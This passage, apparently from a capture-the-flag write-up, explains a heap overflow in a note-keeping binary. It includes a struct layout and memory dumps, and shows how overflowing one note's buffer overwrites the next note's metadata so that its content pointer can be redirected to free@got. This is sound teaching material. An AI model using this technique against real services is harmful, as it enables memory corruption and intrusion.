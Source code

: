 At `0x8314030`, we see the first note's name, `a`. The zeroeth note is called `HEAD` and precedes our first note. Each note is contained within a struct, which contains pointers to the previous and next note (a doubly linked list). The meta-data for note `a` contains this pointer: `0x08314058`, which points to the data associated with that note: `AAAA`. The meta-data for the note looks something like this:

```c
note_info struct {
    char name[16];
    int length;
    char *content;
    note_info *next_note;
    note_info *prev_note;
};
```

This also is true for the next note, `b`, which is immediately after `a` in memory. We can overwrite the meta-data of note `b` by editing note `a`. 

Overflowing the heap
---

If we supply 40 bytes when editing `a` and supplying forty times `0x41`, we overwrite several parts of the meta-data of note `b`:

```
# after editing 'a' with 40 bytes where 4 is allocated:
0x8314000:  0x00000000  0x00000029  0x44414548  0x00000000
0x8314010:  0x00000000  0x00000000  0x00000000  0x00000000
0x8314020:  0x083140a0  0x083140a0  0x00000000  0x00000029
0x8314030:  0x00000061  0x00000000  0x00000000  0x00000000
0x8314040:  0x00000004  0x08314058  0x08314068  0x08314008
0x8314050:  0x00000000  0x00000011  0x41414141  0x41414141
0x8314060:  0x41414141  0x41414141  0x41414141  0x41414141
0x8314070:  0x41414141  0x41414141  0x41414141  0x41414141
0x8314080:  0x083140a0  0x08314008  0x00000000  0x00000011
0x8314090:  0x42424242  0x42424242  0x42424242  0x42424242
0x83140a0:  0x42424242  0x42424242  0x42424242  0x42424242
0x83140b0:  0x42424242  0x083140c8  0x08314008  0x08314008
0x83140c0:  0x00000000  0x00000011  0x43434343  0x00000000
0x83140d0:  0x00000000  0x00020f31  0x00000000  0x00000000
0x83140e0:  0x00000000  0x00000000  0x00000000  0x00000000
```

If we now try to `get` note `b`, the binary will segfault because the pointer to the note's data is set to `0x41414141`. We can use this to make note `b` point to `free@got` with a bit of python. The binary is started using socat to make it listen on a port.

```
# set 'a' with large buffer, overwriting meta-data of 'b':
0x8314000:  0x00000000  0x00000029  0x44414548  0x00000000
0x8314010:  0x00000000  0x00000000  0x00000000  0x00000000
0x8314020:  0x083140a0  0x083140a0  0x00000000  0x00000029
0x8314030:  0x00000061  0x00000000  0x00000000  0x00000000
0x8314040:  0x00000004  0x08314058  0x08314068  0x08314008
0x8314050:  0x00000000  0x00000011  0x41414141  0x41414141
0x8314060:  0x41414141  0x00000029  0x00000062  0x41414141
0x8314070:  0x41414141  0x41414141  0x00000024  0x08314090
0x8314080:  0x083140a0  0x08314008  0x00000000  0x00000011
0x8314090:  0x42424242  0x42424242  0x42424242  0x42424242
0x83140a0:  0x42424242  0x42424242  0x42424242  0x42424242
0x83140b0:  0x42424242  0x083140c8  0x08314008  0x08314008
0x83140c0:  0x00000000  0x00000011  0x43434343  0x00000000
0x83140d0:  0x00000000  0x00020f31  0x00000000  0x00000000
0x83140e0:  0x00000000  0x00000000  0x00000000  0x00000000
```
